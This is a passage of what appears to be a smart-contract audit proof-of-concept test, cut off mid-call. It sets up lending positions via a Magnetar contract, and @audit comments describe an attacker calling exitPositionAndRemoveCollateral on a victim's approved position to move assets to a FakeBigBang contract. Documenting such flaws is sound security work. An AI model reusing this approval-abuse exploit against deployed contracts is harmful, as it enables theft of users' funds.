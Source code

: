 ```
                mint: true,
                mintAmount: borrowAmount,
                collateralDepositData: {
                    deposit: true,
                    amount: wethMintVal,
                    extractFromSender: true,
                },
            },
            {
                deposit: false,
                amount: 0,
                extractFromSender: false,
            },
            {
                lock: false,
                amount: 0,
                lockDuration: 0,
                target: ethers.constants.AddressZero,
                fraction: 0,
            },
            {
                participate: false,
                target: ethers.constants.AddressZero,
                tOLPTokenId: 0,
            },
            {
                singularity: wethUsdoSingularity.address,
                magnetar: magnetar.address,
                bigBang: wethBigBangMarket.address,
            },
        );

        await usd0.approve(yieldBox.address, ethers.constants.MaxUint256);
        await yieldBox.depositAsset(
            usdoAssetId,
            deployer.address,
            deployer.address,
            borrowAmount,
            0,
        );
        const wethCollateralBefore =
            await wethBigBangMarket.userCollateralShare(deployer.address);
        const fraction = await wethUsdoSingularity.balanceOf(
            deployer.address,
        );

        const assetId = await wethUsdoSingularity.assetId();
        
        console.log("asset in YieldBox owned by Magnetar - BEFORE: ", await yieldBox.balanceOf(magnetar.address,assetId));
        console.log("asset in YieldBox owned by User - BEFORE: ", await yieldBox.balanceOf(deployer.address,assetId));
        console.log("asset in YieldBox owned by FakeBigBang - BEFORE: ", await yieldBox.balanceOf(fakeBigBang.address,assetId));

        //@audit => magnetar contract already has been approved by the deployer contract to perform the removed asset operation in the Singularity Market
        //@audit => The `attacker` executed the attack over the `deployer` address
        //@audit => attacker will remove assets from the deployer in the Singularity market, and will transfer those assets to an account of his own by using a FakeBigBang contract!
        await magnetar.connect(attacker).exitPositionAndRemoveCollateral(
            deployer.address,
            {
```